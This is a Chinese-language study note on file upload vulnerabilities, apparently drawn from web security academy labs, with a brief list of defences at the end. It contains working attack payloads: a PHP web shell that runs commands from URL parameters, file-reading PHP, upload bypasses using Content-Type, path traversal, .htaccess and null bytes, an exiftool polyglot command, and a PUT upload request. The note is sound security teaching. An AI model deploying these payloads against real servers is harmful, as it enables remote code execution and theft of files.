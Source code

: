 # File Upload
## 案例
### Deploy a web shell
```
<?php echo system($_GET['command']); ?>
```
### Content-Type bypass
* 開發人員僅檢查 Content-Type，並未確認內容是否與其一致，因此可以將 Content-Type 換成 `image/jpeg` 或 `image/png`，來達成攻擊。
```
Content-Type: image/jpeg
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
### Path traversal bypass
* 開發人員會對使用者上傳的檔案與目錄進行嚴格的檢查，但我們可以透過上傳到其他路徑 ( `../exploit.php` )，來繞過檢查。
```
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
### Overriding the server configuration
* 有時候 server 不一定會執行我們上傳的檔案，因為要執行特定檔案需要事先在設定檔中設定，像是如果要在 apache server 執行 php 需要再 `/etc/apache2/apache2.conf` 中設定:
```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php
```
* 然而有時 server 會允許開發者使用特別的設定檔去改寫原本的設定，像是 apache server 中的 `.htaccess`，以及 IIS server 中的 `web.config` 檔案。
* 因此我們可以透過上傳 `.htaccess` 來改寫原本設定，這將任意擴展名 `.l33t` 映射到可執行 MIME 類型 `application/x-httpd-php`
```
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain
AddType application/x-httpd-php .l33t
```
* 之後我們就可以上傳 `exploit.l33t`，來繞過檢查機制。
```
Content-Disposition: form-data; name="avatar"; filename="exploit.l33t"
Content-Type: application/x-php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
### Obfuscating file extensions
* 給予多個擴展名，`exploit.php.jpg`
* 結尾加入空格或點，`exploit.php.`
* 使用 url 編碼，`exploit%2Ephp`
* 加入分號與空字串編碼，對 C/C++ 將會是結束符號，`exploit.asp;.jpg` 與 `exploit.asp%00.jpg`
* 使用多位元 unicode 編碼，像是 `xC0 x2E`, `xC4 xAE` 或 `xC0 xAE`，對於 utf-8 編碼會是 `x2E`。
* 有時開發人員會去掉不安全的擴展名，因此我們可以透過一些技巧繞過，像是 `exploit.p.phphp`。
```
Content-Disposition: form-data; name="avatar"; filename="exploit.php%00.jpg
Content-Type: application/x-php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
### Flawed validation of the file's contents
* 有時開發人員會檢查檔案的特徵，來確定是否與上傳的格式一致，像是 jpg 檔開頭是否為 `FF D8 FF`。
* 但我們可以透過 `ExifTool` 產生元數據中包含惡意程式的多語言 jpg 檔，像是將我們要注入的程式，寫入 jpg 中的 comment 欄位。
```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" input.jpg -o polyglot.php
```
### Exploiting file upload race conditions
* [race conditions 參考資料](https://zhuanlan.zhihu.com/p/403063546)
* race conditions 是多個程式可以同時存取相同資源，而存取到錯誤資訊，導致最終結果錯誤。
* 這邊的情境是，系統會將上傳的檔案先傳到一個暫存的地方，然後檢查是否有問題，如果有問題才移除。
```
move_uploaded_file(target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}
```
* 因此我們在檢查檔案的時間內，我們有機會執行惡意程式。
### Exploiting file upload without remote code execution
#### 上傳客戶端惡意程式
* 透過上傳 html 或 svg，在其中加入惡意 script，來達成像是 stored XSS 攻擊。
#### 利用上傳文件解析中的漏洞
* 我們知道 server 會解析基於 XML 的文件，例如 Microsoft Office .doc 或 .xls 文件，因此我們可能可以透過 XXE 來達成攻擊。
### Uploading files using PUT
* 有些 Web server 可能被配置為支持 `PUT` 請求。
* 因此提供另一種上傳惡意文件的方法，即使上傳功能無法通過 Web 介面。
```
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```
* 我們可以透過 `OPTIONS` 方法，來確認 server 支援的請求方法。
```
curl -X OPTIONS https://example.org -i
```
```
HTTP/1.1 204 No Content
Allow: OPTIONS, GET, HEAD, POST
Cache-Control: max-age=604800
Date: Thu, 13 Oct 2016 11:45:00 GMT
Server: EOS (lax004/2813)
```
## 防禦
* 設定允許擴展名的白名單而不是禁止擴展名的黑名單。
* 確保文件名不包含任何可能被解釋為目錄或遍歷序列 (../) 的子字符串。
* 重命名上傳的文件，以避免現有文件被覆蓋的衝突。
* 在完全驗證之前，不要將文件上傳到服務器的永久文件系統。
* 盡可能使用已建立的框架來預處理文件上傳，而不是嘗試編寫自己的驗證機制。
---
###### tags: `web security`